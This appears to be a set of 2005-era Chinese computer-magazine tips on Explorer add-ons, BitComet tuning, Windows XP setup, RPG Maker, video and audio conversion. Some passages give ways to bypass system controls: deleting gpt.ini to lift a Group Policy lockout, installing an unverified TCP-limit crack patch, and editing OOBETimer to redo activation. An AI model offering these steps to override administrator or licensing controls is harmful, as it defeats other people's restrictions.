（石山）

## 资源管理器开“天窗”

复制/移动文件时，很多人会抱怨“资源管理器”不够方便，常常需要在多个窗口中来回切换。本刊2005年第21期的《单挑还是群殴？与TC过招》介绍了几个增强型的免费文件管理工具来代替“资源管理器”，但很多用户还是习惯于系统自带的“资源管理器”。无须矫正你的偏执，用Folder Box给“资源管理器”开个“天窗”吧！

Folder Box小档案

- 软件版本:1.2
- 软件大小:898KB
- 软件性质:免费软件
- 适用平台:Windows 98/ME/2000/XP
- 下载地址:http://www.baxbex.com/files/folderbox.exe
- 软件备注:汉化补丁可以从汉化新世纪(下载链接:http://www.hanzify.org/index.php?Go=Show::List&ID=9380)下载,该补丁中含有3721上网助手和DUDU下载器,请根据需要选择是否安装。

### 敲敲打打，改造“资源管理器”

安装Folder Box后打开“资源管理器”，单击“查看→浏览器栏”，勾选“Folder Box”，就能在下方看到打开的窗口了，不过程序默认只打开2个窗口（桌面文件夹）。可以自定义打开窗口数量和指定的文件夹，比如笔者经常定期将“d:\mydocuments”和“d:\downloads”下的文件，转移到G:\下对应的文件夹保存。单击程序窗口左上角的配置按钮，在弹出配置窗口中点“Folder Box的属性”下拉列表并选择“FolderBox1”，勾选“启用”和“打开目录”，将名称设置为“我的文档”、单击“初始目录”然后定位到硬盘中的“d:\mydocuments”。依照上法依次设定其他窗口各项参数，此外单击“选项”、“工具栏设置”还可以设定文件夹打开方式、显示指定按钮等（见图）。



### 透过“天窗”，剪切复制得心应手

经过上文设置后，重新打开“资源管理器”就可以在下方打开设置好的文件夹，比如要将“d:\downloads”下的文件转移到“g:\downloads”，在FolderBox窗口列表选中“下载软件”，然后单击上方的向上按钮（在“资源管理器”中显示），接着切换到“备份软件”窗口。这样只要在上方的窗口将需要转移的文件用鼠标拖动到下方窗口即可。另外，FolderBox打开的窗口支持“资源管理器”原来所有的操作。

### 小提示

FolderBox还支持IE的操作，运行IE后单击“查看→浏览器栏”，选择“FolderBox”，同样会在IE下方打开新窗口。比如可以设置一个专门用于保存图片的文件夹，以后在看网页时发现需要保存的图片，只要将图片拖到下方的文件夹即可快速保存。

（平淡）## 快马也得加鞭！BitComet终极优化

BitComet是一款高性能的BT下载客户端软件（因为固执地始终认为采用C++编写的程序比用Python编写的程序执行效率要高），与其他BT下载软件相比，BitComet具有更高的连接能力，所以即使在P2P下载速度本应极慢的内网环境中也能保持让人满意的下载速度。但是快马也得加鞭！我们要让BitComet的速度优势发挥到极致，就必须对其进行优化。

## 优化软件前先搞定网络

- 1. 带宽取决于物理限制

所有速度优化都是在物理限制的范围以内进行的，比如512Kbps的ADSL，下载速度的极限就是64KB，如果想通过优化达到128KB，那只能是一个美好的梦想……

- 2. 路由做好端口映射

如果使用路由方式上网，实际上就处于内网环境了。内网下载速度总要比外网慢一些，所以在使用BitComet下载前，要在路由的管理界面（一般通过http://192.168.1.1登录）为其做好端口映射（也称“端口转发”）并启用UPnP功能，请检查BitComet设置中的监听端口，建议不要设置为6881-6889、16881-16889这两个范围内的数字，因为它们通常会被网络供应商屏蔽，然后参照路由器的说明书进行操作。



- 3. 破解TCP连接数限制

为防止蠕虫疯狂传播，在Windows XP SP2中限制了TCP连接数，专业版的TCP数只有10个，对于BT这种需要大量并发连接数的P2P下载方式来说无疑是致命的打击。所以使用Windows XP的用户需要先下载TCP连接数破解补丁来修改现有的网络连接限制（由于微软每次对系统的升级都会导致旧版本破解补丁失效，所以在此不提供下载地址，需要的用户可以在Google上搜索“TCP连接数破解补丁”并找出可用的最新版本）。

## 专为你打造，ADSL用户专用提速方案

在中国宽带用户中，ADSL几乎占了绝大多数。而ADSL这种连接方式有其特殊性，设置方法也值得单独介绍。

- 第一步：选择菜单“选项→选项”，在弹出窗口左侧选择“网络连接”标签，然后将窗口右侧“连接设置”栏中的“全局最大下载速率”从默认的“无限制”更改为1000KB/s，“全局最大上传速率”设置为40KB/s（这是2Mbps的ADSL的推荐速率，如果是512Kbps或者1Mbps用户请根据网速减小这个数值）。

- 第二步：选择左侧“网络连接”标签，将“每任务最大连接数”设为100，“每任务保持连接数”设为50，“全局保证上传连接数”设为10，“连接发起间隔”设为100或150，“最大同时尝试的TCP连接个数”设为1000，“是否允许通过UDP实现内网互联”设为“优先”。

## 冷门热门区别对待

- 1. 热门种子提速方案

所谓热门种子，就是指种子数超过20，用户连接数超过200的下载任务。强烈建议在下载热门种子的时候不要同时进行别的下载，以保证最佳的连接状态。开始下载后，随着时间的增加你可以看到连接到的种子和用户数也在同时增加，上传和下载速度也在逐渐提升中，当速度到达平时稳定下载速度的一半、连接数大于50，种子数1个以上时，打开设置界面，选择“任务设置”标签，将“每任务最大上传速度”设置为10-20之间。继续等待一段时间，等速度提升并稳定后，如果发现速度仍不理想，可以每次2K的幅度调小“每任务最大上传速度”，如果这样做不起作用，则说明调整的时间不正确，可恢复到“无限制”后过段时间再按上面的步骤来操作。

- 2. 冷门种子提速方案

没有达到热门种子标准的就称为冷门种子，由于冷门种子下载速度慢的原因在于可供连接的用户数比较少，而非上传占用了下载所需的带宽，所以限制的效果不太明显。对于这类种子，可以将“每任务最大上传速度”设置为“无限制”或25-30左右。如果你觉得这个下载资源确实不错，也可以通过QQ等聊天工具群发一下种子下载地址，让更多人参与下载，也有助于提升下载速度。

## 通用BitComet优化秘术

- 1. 牺牲内存也要保护硬盘

除了在“任务设置”中勾选“下载前先分配空间”以防止硬盘中出现大量碎片外，我们还可以通过设置内存中下载缓存区的大小来控制硬盘读写的频率。在设置界面的“磁盘缓存”标签下，将“磁盘缓存最小值”设为16MB，“磁盘缓存最大值”设为64MB，并确保下面的自动调整选项已被勾选。这个数值是电脑物理内存256MB适用的设置，如果你的内存更大，也可以适当调高缓存大小。



- 2. 专用Tracker，让更多人连到你

在用BitComet建立新的下载任务时，在弹出的“任务属性”框中选择“高级设置”选项卡，在“服务器列表”中填入要追加的备用服务器，下面是比较常用的一些备用Tracker服务器：
http://bfans.332.org:8080/announce
http://bfans.332.org:6969/announce
http://bfans.332.org:8000/announce
http://bt5zone.net:8080/
http://bttitan.332.org:8000/announce
http://bt.uglab.org:8080/announce
http://bt.zingking.com:6969/announce
http://bt86.com:8181/announce
http://www.potuk.org:2710/announce
可是每次下载都要这样复制一次未免太麻烦了，打开设置界面，选择左侧“高级设置”标签，在窗口右侧将“如果多少分钟之内不能连接则添加备用Tracker”由默认的30改为0，然后在下方的“备用Tracker列表”中把上面的那些备用服务器添加进去（见图3），这样所有的任务都会自动连接这些Tracker服务器了。

## BitComet有问必答

- 1. 我应该用什么版本的BitComet？

答：有很多BT网站到现在仍推荐使用BitComet 0.56稳定版，说这个版本下载速度最快。不过实际上从0.59版本开始，BitComet就支持DHT网络连接了，这种连接方式来自于电驴等P2P软件，可以无需Tracker服务器而直接连接，这样就解决了以往有种子却连不上服务器的尴尬问题，因此推荐使用最新的BitComet 0.60稳定版。

- 2. 使用BitComet下载就打不开网页怎么办？

答：如果你使用的是ADSL拨号上网，那么可能是产生了“断流”，首先需要确定你的操作系统没有TCP连接数限制（如果有的话请使用“TCP连接数破解补丁”调高允许的连接数），因为比如连接数限制为10，那么BT下载就全部占用了，要打开网页自然就无法连接了。而如果是ADSL特有的“断流”，则可以尝试限制总连接数和总的下载上传流量，逐渐调小直到不再出现断流。

- 3. 点击网页链接后无法自动调用BitComet下载了。

答：这可能是由于你先前曾经安装过其他BT下载软件（如Vagaa），破坏了BitComet的关联，可能你对修复关联一窍不通，不过没关系，有一种简单的方法：通过“选项”菜单打开BitComet的设置界面，选择左侧的“高级设置”标签，去除“作为BT客户端”的勾选并点击“确定”，然后重新打开设置界面，再勾选上“作为BT客户端”的选项点击“确定”，BitComet就会自动修复种子文件的关联了。

（讨厌逛街）

## 冲破枷锁！解放被组策略锁死的系统

《电脑爱好者》2005年18期上有一篇《有勇有谋，智斗组策略三大“顽疾”》，其中有一处讲到如果在组策略中启用了“只运行许可的Windows应用程序”，而没有将“组策略编辑器”本身需要调用的mmc.exe加入许可列表，系统就会被锁死，不能运行任何应用程序。当时给出的解决方法是通过局域网来解决，但对于家庭用户来说可能并没有这样的网络环境，经过反复试验，我们找到了两种简单的解决方法。

- 1. 带命令提示符的安全模式

在启动过程中按住F8键，在高级启动选项菜单中选择“带命令提示符的安全模式”进入系统，然后在弹出的“命令提示符”窗口中输入mmc.exe，打开系统管理控制台，选择菜单“文件→添加/删除管理单元”，在弹出窗口选择“独立”选项卡，点击“添加”按钮，在列表中选择“组策略对象编辑器”，点击“确定→本地计算机→完成”，然后展开组策略下的“用户配置→管理模板→系统”，将右侧窗口中的“只运行许可的Windows应用程序”设置为“已禁用”。

- 2. 删除gpt.ini

组策略中的大多数设置其实就是在启动时把系统目录下组策略文件中的注册表设置项导入到当前用户的注册表中，而gpt.ini是组策略中的设置文件之一，将其删除后就会使原来设置的组策略失效。使用DOS启动盘进入，然后用CD命令进入%windir%\System32\GroupPolicy目录，执行“del /f /q gpt.ini”命令，重启后即可解除封锁。

（上海 超级熊猫 北京 华玉成）

## Windows XP 的 10 门“必修课”

从来就没有完美的系统，即使是从 Windows 3.1 开始被大家臭骂到 Windows XP 的微软（虽然如此大家还是喜欢用 Windows，这就是传说中的树大招风吧 -_-），也不能保证最新的 Windows Vista 正式发布时能完美无缺。以主流的 Windows XP 来说吧！很多初学者在新装完的系统前就不知该做些什么设置好，其实 Windows XP 有 10 门“必修课”，看看你的系统是不是合格了！

## 必修课 1: 把好网络安全关

在 Windows 98 时代，我们还无须过多为网络安全操心（其实是系统的网络组件还太幼稚，根本没有被入侵的可能）。那时除装个杀毒软件防范一下当时正火的“冰河”木马外，网络似乎就很安全了，那时的网络防火墙真是挺鸡肋的，即使不安装也不会有什么影响。但到了 Windows 2000/XP 时代，恐怖才真正降临，系统的漏洞导致蠕虫病毒大肆传播，现在用补丁没打齐全且没有安装全网络防火墙的 Windows 2000/XP 上网无异于自杀。打开“开始→设置→控制面板”，打开“Windows 防火墙”并选择“启用”，对安全需求较高的用户则可选择“天网”等第三方软件。同时，在“控制面板→安全中心”中启用“自动更新”功能，可以减小系统被入侵的可能性。

## 必修课 2: 设置字体样式

Windows 默认显示效果并不是最好的，至少不适合所有人。右击桌面空白处，选择“属性”，在弹出的“显示属性”窗口中点击“效果”按钮，然后勾选“使用下列方式使屏幕字体的边缘平滑”并选择“清晰”（见图1）。除此之外，在“显示属性”窗口中点击“高级”，选择“项目”下拉框中的“图标”、“图标间距（垂直）”、“图标间距（水平）”，就能对桌面图标大小及间距进行调整了（据说 CFan 编辑部曾经出现过为了在桌面上放更多的快捷方式而将图标间距调得超小的强人）。



## 必修课 3: 更改文件系统设置

为防止用户的误操作破坏掉系统重要文件，Windows 的默认设置不显示系统目录中的内容，隐藏已知文件的扩展名，但这些设置给大多数使用者造成了不便。打开“资源管理器”，选择菜单“工具→文件夹选项”，在“查看”选项卡下方的“高级设置”栏中勾选“显示系统文件夹的内容”，取消“隐藏受保护的操作系统文件”和“隐藏已知文件类型的扩展名”的勾选，勾选“在地址栏中显示完整路径”，如果需要进行权限设置的用户则应取消“使用简单文件共享”的勾选（见图2）。



## 必修课 4: 调整显示效果

我的桌面图标怎么这么大啊？我的屏幕为什么会闪？这些问题在使用 Windows 默认显示效果的用户中不绝于耳。现在大多数 17 英寸 CRT 显示器比较适合的分辨率为 1024 × 768，而 LCD 显示器由于不采用电子枪扫描的方式，所以其最佳分辨率是取决于其标称的“最佳分辨率”，一般 15 英寸 LCD 显示器的最佳分辨率为 1024 × 768，而 17 英寸和 19 英寸 LCD 显示器则为 1280 × 1024。右击桌面空白处，选择“属性”，在弹出的“显示属性”窗口中选择“设置”选项卡，把“屏幕分辨率”设置为最佳分辨率，然后将“颜色质量”设置为 16 位或以上。对于屏幕闪烁的问题，点击“高级”按钮，在新窗口下的“监视器”选项卡中将“屏幕刷新频率”设置为 85 赫兹（有些老显示器设置为 85 赫兹后字体边缘会显得不锐利，出现此情况可以调整为 75 赫兹），但应注意 LCD 显示器的刷新频率是固定 60 赫兹，无须调整。

- 1. 为什么屏幕分辨率只能达到 800 × 600？Windows XP 自带大量显卡驱动程序，但并非全部，且其自带的驱动和厂家的驱动相比往往在性能上略逊一筹。如果出现屏幕分辨率无法达到正常标准的情况，请在显卡厂商官方网站或专业驱动网站（如驱动之家 http://www.mydrivers.com）下载最新的通过微软 WHQL 认证的驱动程序并安装。
- 2. 为什么屏幕分辨率正常，但却无法运行 3D 游戏？如果排除 DirectX 版本没有达到游戏要求的可能（如果是这种情况则安装最新的 DirectX 即可），可能又是显卡驱动程序惹的祸了，某些版本的显卡驱动无法打开或禁用了 DirectX 的 3D 功能，运行 dxdiag.exe 打开“DirectX 诊断工具”，在“显示”选项卡的“DirectX 功能”栏中点击“Direct3D 加速”和“AGP 纹理加速”右侧的“启用”按钮，如果按钮是灰色不可用状态，则说明目前使用的显卡驱动程序没有提供 3D 支持，建议升级为新版本。

## 必修课 7: 安装必要的应用程序

在 Windows 98 上，我们需要安装尽量少的应用程序来保持系统的稳定，而在 Windows 2000/XP 中，这已经不再是我们需要担心的问题，全新的 NT 内核使稳定性大大提高。不过在安装程序时还是有一些需要注意的问题，合理地安装程序能够使我们的系统状态保持良好。

- 1. 系统分区不要安装过多的应用程序除杀毒软件、输入法等和操作系统密切相关的应用程序外，其他应用程序都应尽量避免安装在系统分区（即大多数人的 C 盘）。很多应用程序在运行时会在其目录下生成大量的临时文件（磁盘碎片的根源啊），有可能使 C 盘空间不足而导致虚拟内存过低。
- 2. 避免应用程序间的冲突很多底层相关，特别是具有监控功能的应用程序，在交叉使用时会引起系统冲突。比如同时打开两个杀毒软件的监控功能大多会让系统蓝屏（即使不蓝屏也会使运行速度奇慢无比），而同时打开两个网络防火墙则有可能让网页都无法打开。在选择杀毒软件和网络防火墙时应尽量选择同一软件公司出品的套装（国外的 Norton、McAfee，国内的瑞星、金山等都有相应的安全套装产品）。

## 必修课 8: 设置默认主页和邮件账户

右击桌面上的 IE 图标选择“属性”，在弹出窗口的“常规”选项卡中将“主页”的地址设置为自己经常访问的网站地址（笔者的默认主页是 Google）。同时，如果你有自己的 E-mail 地址，那在 Outlook Express（简称 OE，大多数人都喜欢用这个系统自带的邮件客户端）中就应该设置好账户的信息，大多数提供邮件服务的网站都在帮助中介绍了邮件客户端的设置方法（163 邮箱提供的设置指南：http://mail.163.com/help/help_client.htm）。

- 1. 为什么主页地址无法修改很多网页中的恶意程序都会对 IE 的默认主页进行修改，如果已经不幸“中招”，比较好的方法就是安装所有 IE 补丁，使用最新杀毒软件进行查杀，同时使用 RegFix（下载地址：http://download.pchome.net/system/tweak/16412.html）等注册表修复工具进行恢复。
- 2. 为什么点击网页中的邮件地址链接没有反应如果曾经安装过其他第三方的邮件客户端工具，很可能是其修改了默认邮件客户端的设置，然后在该软件被删除时也没有将默认邮件客户端恢复就有可能导致此问题。解决方法是将默认邮件客户端恢复，以 OE 为例：运行 OE 后选择菜单“工具→选项”，在“常规”选项卡的“默认邮件程序”下方点击“设为默认”。

## 必修课 5: 激活你的 Windows

装完 Windows XP 后，会提示输入正版序列号并在线激活，只有激活成功并被确认为使用正版的用户才能享受微软提供的 Windows 各项附加服务（如在线升级和很多免费的增强工具）。如果你现在使用的序列号是非法的，并已经购买了正版的 Windows，无须重装系统就能重新激活。

第一步：点击“开始→运行”，输入 regedit.exe 打开“注册表编辑器”，找到 [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\Current Version\WPAEvents]，在右侧窗格中右击 “OOBETimer” 选择“修改”，在弹出框中至少修改一个字节，点击“确定”保存。
第二步：运行“%systemroot%\system32\oobe\msoobe.exe /a”，在弹出的“激活向导”中选择“通过电话激活”并点击下一步，然后点击“修改序列号”后选择更新。
第三步：如果序列号填写错误则会退回到前一个画面，选择“稍后激活”并重启。重复进行第二步直到成功为止，重新激活后点击“确定”即可。

## 必修课 9: 使用优化工具

微软提供的 TweakUI（下载地址：http://www.onlinedown.net/soft/26929.htm），国内的共享软件“超级兔子”、“Windows 优化大师”都是不错的系统优化工具。但盲目地优化反而会适得其反，很多用户在使用优化软件的自动优化功能后都会出现各种奇怪的系统故障，这时比较好的方法是使用这些软件自带的恢复功能找回原来的设置。

## 必修课 6: 找回你的“收藏夹”

无论是 IE 还是 Firefox 都提供了“收藏夹”功能来保存使用者喜好的网址，而很多人在重装系统后才非常懊恼地抱怨没有把收藏夹中的网址保存下来。其实大多数浏览器都提供了收藏夹的导入导出功能，以 IE 为例，打开 IE 选择菜单“文件→导入和导出”，选择“导出收藏夹”将已有的收藏夹备份下来，在重装系统或使用新电脑时只需将备份的收藏夹复制过去并使用“导入收藏夹”功能即可。

## 必修课 10: 全面备份系统状态

如果你和笔者一样对新软件测试情有独钟，为了系统着想，在安装一些非主流的软件前请及时对系统状态进行备份。Windows XP 的“系统还原”就是一个非常理想的工具，担心影响系统速度的朋友可以只打开系统分区的“系统还原”监控，另外经常备份注册表也能保证在系统出现故障时不至于手足无措，本刊 2005 年第 4 期的《赤手空拳备份注册表》介绍了自制注册表备份脚本的方法，怕麻烦的朋友可以直接使用 ERUNT（下载地址：http://www.onlinedown.net/soft/37255.htm）等现成软件。

## 我有我主张 我做我的RPG游戏

角色扮演类游戏（RPG）是众多玩家十分青睐的游戏类型，市面上见到的RPG游戏大都是采用VB、VC等高级编程工具来完成的，而Enterbrain公司开发的RPG Maker游戏制作软件则满足了初学者制作RPG游戏的需求，它可以让不懂编程的人也能做出精美的RPG游戏来。继RPG Maker 2000、2001、2002、2003版本后，它又推出了新的XP版，成了RPG游戏制作爱好者的首选。
今天，我们就用它做一款《CFan奇遇记》的小游戏来看一看。

-   **RPG Maker XP小档案**
    软件版本: 1.01 修正第二版
    软件大小: 21MB
    软件性质: 共享软件(无限制)
    适用环境: Windows 2000/XP
    下载地址: http://www.newhua.com/cfan/200512/HA-RPGXP_101.exe

## 游戏创意

CFan是游戏主人公，他在寻找CFan阅览室过程中，遇到了热心而又调皮的MM，经历了风雪考验，还误打误撞闯进了与幽灵战斗的鬼门关，最后终于进入CFan阅览室，在书架上找到了CFan系列图书。

## 制作游戏

启动RPG Maker XP，按Ctrl + N，新建空白游戏，设置好保存位置并命名。

### 1.素材导入

点击工具栏上的“媒体库”按钮(右数第四个按钮)，使用窗口里的“导入”工具，将我们制作的封面图片导入“Graphics→Titles”类，将游戏中使用的CFan三本杂志封面图片导入到“Graphics→Pictures”类，以备后面使用。

### 2.场景制作

RPG游戏的主元素是由若干场景构成的，这个游戏由“主场景”、“阅览室场景”和“战斗场景”组成。在RPG Maker XP里制作场景十分简单，就好像搭积木。
第一步: 点击窗口左下角项目下系统自建的“MAP001”地图后右击鼠标，选择“地图设置”，进入设置窗口。在这里将地图命名为“主场景”，从“背景”下菜单中选择“009:城下小镇外表”类作为主场景使用的素材，“确定”返回后开始制作主场景。
第二步: 在工具栏上激活图层1和铅笔工具(默认已经激活)，用鼠标在素材窗口里点击素材元件的左上角后拉动至全部选中，再把鼠标移入场景中选好位置，素材就加入进来了(见图1)。你还可以把不同素材放到不同的层面上，来实现各种素材的叠加。



> **小提示**
> 添加素材前需构思一下摆放布局，如果放进来后想调整位置，只能使用工具栏上的“选择”工具将场景里的素材圈选后，再移动或删除它。
> 依照上面的方法可以很轻松地制作出另外两个场景。制作完成点击工具栏上的“游戏测试”(最右侧的按钮)，之后主角在场景里就可以用键盘光标键控制移动了。

### 3.事件制作

光有场景是不够的，必须加入事件(即情节和控制方法)才能构成真正的游戏。制作时首先按F8快捷键激活事件层(见图2)，然后，开始制作主场景的以下几个游戏事件。



第一步: 将场景里的“S”图标拉到合适位置的方格里，作为确定角色初始(进入游戏后)位置。
第二步: 在场景里钟塔右侧方格上双击进入“制作事件”窗口，在“角色图片”上双击打开图形窗口，在“196 – Support04”类中选择动画喷泉作为事件图形。在“事件开始条件”里选择“与主角接触”，并在“选项”里设置动画方式。在“执行内容”里点击第一条进入“事件指令”窗口，点击标签“2”下的“天气设置”，勾选“雨”，强度为9，长度5帧。这样可使场景里出现动画喷泉元件，角色靠近与其接触时就会下雨。再次点击下一个事件指令，选择1类里的“显示文章”，输入角色对话，这样在激发下雨的同时，会出现人物的对话(见图3)。最后复制这个元件到钟塔左侧，将天气设置里的雨改成雪就完成了下雪的设置。为了能停止雨雪天气，我们还在角落里设置了一个宝石图形的事件，直接复制雨雪事件到这里后，将图形改成宝石，天气事件改为无，这样角色接触它就会停止雨雪。



第三步: 双击NPC所在的位置，打开“制作事件”窗口，在“角色图片”上双击，选择“002-Fighter02”，在移动规则中设置好角色的“移动路线”、“速度”及“频度”，同时事件设置为“显示文章”即可。这样就能完成NPC的添加。
第四步: 在右下角房子处点击，依上法添加场景转移事件，选择“2”下的“场所移动”事件指令，在“直接指定”栏将场景移动到“阅览室场景”(见图4)。当角色走到门前时就会自动进入CFan阅览室了。同样方法，在右上角的房间处也设置场所移动事件，将场景切换到“战斗场景”。
第五步: 最后在场景右下角设立一个返回游戏开始画面的事件(每个分场景中也需设置返回主场景的事件)。其他场景设置可参照上述方法进行，在“阅览室场景”里设置与管理员对话事件，在书架上设置3处“显示图片”事件，分别调入“电脑爱好者”、“电脑高手”和“数码”杂志的封面图片，当角色与事件接触时就会显示找到的杂志封面了(见图5)。





### 4.战斗制作

战斗场景设置有两种方法，一种是在“地图设置”里确定“遇敌步数”和在“遇敌率→队伍”中设置敌方角色(见图6)，角色一开始看不见敌人，走过设置步数后会自动切入战斗场面(见图7)。另一种是在场景里添加事件，在“3”标签的“战斗处理”来设置敌方角色。系统默认战斗时的角色有3个同伴，你可以在工具栏上使用“数据库→系统→初期同伴”来增减。关于玩家的武器、特技、生命力以及敌方设置，均可以使用工具栏上的数据库工具来完成，朋友们可自行尝试。最后在“数据库→系统”的“标题画面图形”里导入启动图片，游戏开始就会显示我们自己制作的“CFan奇遇记”的图片了。





## 游戏的导出

经过若干次测试后，完成游戏的制作。现在就要输出压缩数据: 选择菜单里的“文件→压缩游戏数据”即可。

**小提示**
默认方式导出的RPG游戏只能在安装了RPG Maker XP的电脑上玩，游戏将调用系统资源素材支持游戏。如果想在没有安装RPG Maker XP的机器上使用，可选用以下方法导出:
①压缩前修改Game.ini文件，删除RTP1=后面的内容；
②将游戏中所用到的素材手动复制到游戏目录下的相应目录中(包括声音和图形)；
③将C:\Windows\SYSTEM32中的RGSS100J.dll复制到游戏目录下。
最后进行游戏压缩，即可得到脱离RPG Maker XP的游戏了。
怎么样？游戏DIY爱好者朋友们？心动不如行动，RPG游戏我做主，去制作一款真正属于自己的RPG游戏吧！

（烟台 猫咪老爸）

## 多快好省 轻松打造KVCD

本刊《挑战极限！制作220分钟的VCD光盘》一文引起了广大读者的制作兴趣，但许多朋友反映在TMPGEnc Plus中转换RMVB文件速度太慢，询问有没有更快速的转换方法。笔者在使用其他MPEG编码软件时发现，著名的MPEG编码程序MainConcept MPEG Encoder(以下简称MCME)同样支持对MPEG1进行动态编码，也就是具备了制作KVCD的核心条件，那么它是否也能用来制作KVCD呢？笔者进行了尝试，结果令人满意，虽然没有像在TMPGEnc Plus中那样的KVCD模板文件，但在MCME中不仅可以直接转换RMVB文件，而且转换速度飞快、更能直观地控制转换后的KVCD文件体积，以便进行光盘刻录。下面就来具体介绍一下如何在MCME中制作KVCD。

## MainConcept MPEG Encoder小档案

-   软件版本:1.42
-   软件大小:12.5MB
-   软件性质:共享软件
-   适用平台:Windows 9x/2000/XP
-   下载地址:http://www.newhua.com/cfan/200512/MpegEncoder142.zip
-   汉化版地址:http://www.newhua.com/cfan/200512/HC-MPEGEncoder142.ZIP

软件备注:这个汉化补丁对MCME中的高级参数部分没有汉化，为了方便读者使用，笔者对其中涉及KVCD的参数设置进行了简单汉化，大家可以从http://www.newhua.com/cfan/200512/mpg_dlg.dll下载汉化后的“mpg_dlg.dll”文件，然后复制到MCME的安装目录C:\Program Files\MainConcept\MPEG Encoder,覆盖原始文件即可。

> **小提示**
> 1.42版本的MCME转换RMVB文件有时会出现声音和画面不同步的现象，这时可以从http://www.ayxz.com/down.asp?id=4762&no=1下载1.41版本的MCME，安装后再进行转换，即可解决不同步的问题，不过这个版本暂时没有汉化补丁。
> 安装阿飞的Real解码器时，要注意如果系统中安装有RealPlayer，则不要勾选RealCODEC项。

-   1. 第一步：安装并汉化MCME，同时要安装好RMVB解码器。这里要注意的是，MCME必须配合阿飞的Real解码器(下载地址:http://download.pchome.net/multimedia/mpeg4/encoder/19872.html)或者官方解码器才能正常转换RMVB文件，笔者测试使用过其他的一些RMVB解码器均不能转换成功。
-   2. 第二步：运行MCME，在主界面中单击“视频来源”后面的“打开”按钮，选择要转换的RMVB文件，然后在“音频来源”部分会自动添加好同一个RMVB文件路径，MCME默认会在与源文件相同的目录中输出编码文件，如有需要，请重新选择其他目录。
-   3. 第三步：设置“输出格式”中的参数。“MPEG类型”设置为“MPEG1”，“视频模式”设置为“PAL”，“流类型”一定要选择为“程序(视频+音频)”，即同时包含视频和音频，“音频格式”设为“Layer 2”。然后单击“详细”按钮，这里的参数一般不必设置(见图)，如果要转换的RMVB源文件画面尺寸较大，则可以在这里调整视频宽度和高度(标准VCD视频宽高为352×288)，不过实现制作KVCD的关键设置并不在这里，而是下一步。
-   4. 第四步：单击“高级”按钮，在“Video Settings”选项卡中，“码率类型”一定要选择为“Variable bitrate”，即可变码率(动态编码)，这就是制作KVCD的关键，下面“可变码率”中的设置可以控制生成KVCD的品质，“最大值”就是动态编码时最高可以使用多大码率，它决定了节目中出现高速复杂画面时的质量，“最小值”就是动态编码最低可以使用多小码率，它决定了静止简单画面的质量，一般不低于200Kbps即可，“平均值”决定了整体画面质量，标准VCD的编码是固定1150Kbps，由于我们使用了动态编码，所以这里即使平均值设置为“750”，实际生成的节目质量看起来也并不会比标准VCD差，因为在标准VCD难以表现的高速复杂画面中，我们有“最大值”可以保证其质量。
-   5. 第五步：单击“Audio Settings”标签，这里的“音频码率”默认设置较高，会使转换后的文件体积变大，一般设置为“128Kbps”即可满足需要。同时要注意的是，如果你需要用TMPGEnc DVD Author制作DVD的话，则应该在图所示的详细参数设置中将音频“频率”设置为“48000Hz”。
-   6. 第六步：单击两次“确定”按钮返回主界面，在主界面右下角可以看到MCME提示的“估计文件大小”，这就是转换成KVCD文件后的体积，请注意这个数值不要超过单张光盘的最大容量700MB，另外这里的估计值与最终生成的文件体积会有一定的偏差，为了保险起见，建议这里的提示数值不要超过680MB为宜。如果文件体积不合适，你需要在高级参数设置中对“可变码率”中的平均值、最大值和最小值参数进行修改，以实现最佳质量和最佳体积的完美结合，以适合光盘刻录，这也是使用MCME比TMPGEnc Plus制作更为方便的一个重要表现。
-   7. 第七步：单击“转换”按钮，你可以在右下角看到MCME转换所需时间，从笔者的使用情况来看，如果你的机器配置够高的话，甚至只需要花费RMVB源文件播放时间的一半就能转换完成，比TMPGEnc Plus转换速度几乎快了一倍，非常方便。
-   8. 第八步：转换完成后，就是刻录的步骤了，在第8期的文章中我们已经介绍过了，注意一定要使用6.6以上版本的Nero，即可成功刻录。

> **小提示**
> MCME还具备批量转换功能，在转换大量RMVB文件时非常实用，首先按照前面的步骤设置好KVCD转换参数，并单击菜单“文件→添加到批处理列表”，然后再打开新的RMVB文件设置合适的KVCD转换参数，同样添加到批处理列表，依此类推，添加所有文件的转换任务，最后在“编码批处理列表”窗口中单击“开始编码”按钮即可直接进行批量转换了。

> **小提示**
> 现在一些DVD影碟机已经支持直接播放光盘中的MPEG文件。读者朋友们可以尝试一下，在Nero中直接使用“CD-ROM(ISO)”刻录方式，把转换后的KVCD文件刻录到光盘上，如果可以在你的DVD影碟机上识别播放的话，以后就不用再麻烦制作成VCD格式了，使用起来更加方便。



（正阳新锐 徐海斌）

## 无CUE文件也能轻松转换APE文件

现在很多朋友都会从网上下载APE文件，这种文件是一种高品质的音频文件，它可以将CD音轨进行无损压缩，在保证音质的情况下，比WAV文件少占用一半空间。但如果你想在MP3播放器中欣赏这些音乐时，就得把APE文件转换为MP3文件。不管用的转换工具如何，不管用的转换方法如何，转换APE时都需要CUE文件，这个文件记录了APE文件的分曲信息，但如果从网上找到的APE文件并不包含这个文件时应该如何转换呢？
解决此问题的一般方法是从网上找任意已经写好的CUE文件，然后用它修改出一个新的文件。但这样非常麻烦，所以这里再为大家介绍一种更简单的方法，使用的APE转换工具Foobar 2000。

-   1. 第一步：从http://nj.onlinedown.net/soft/39093.htm下载Foobar 2000美化版(以下简称Foobar)，并安装。
-   2. 第二步：将APE文件添加至Foobar播放列表，右击该文件，选择“转换→运行转换器，单独文件输出”项。在弹出的“选择文件写入器预置”窗口找到编码器为LAME的四项，选择这四项转换后的结果就为MP3，如果无特殊要求，只要选择“命令行编码器:LAME -alt-preset standard”即可。
-   3. 第三步：设置好文件保存位置后，Foobar开始转换，稍候我们就可以得到包含整张专辑的一个MP3文件。
-   4. 第四步：从http://nj.onlinedown.net/soft/1765.htm下载免费的MP3切割软件mp3DirectCut并安装。要注意这款软件并不会建立快捷方式，需要你到软件目录中运行mp3DirectCut.exe来打开程序。
-   5. 第五步：选择菜单中的“文件→打开”，打开刚刚转换好的MP3文件。
-   6. 第六步：点击菜单中的“编辑→静音检测”，在弹出窗口中点击“开始”按钮，软件会自动分析出文件中每首歌曲间的静音部分(见图)，完成后点击“关闭”。
-   7. 第七步：选择菜单中的文件“编辑→ID3标签与文件信息”，勾选“使用ID3v1标签”，在“艺术家”及“专辑”中输入相关信息。
-   8. 第八步：点击菜单中的“文件→保存切段”，在“分割文件”窗口中勾选“创建ID3v1.1标签(使用%T,%A(or %D),%C,%N)”项，其他使用默认。



> **小提示**
> “级别”、“周期”等项一般不用设置，使用默认即可。

（九尾）

## 警报！新CIH病毒来了

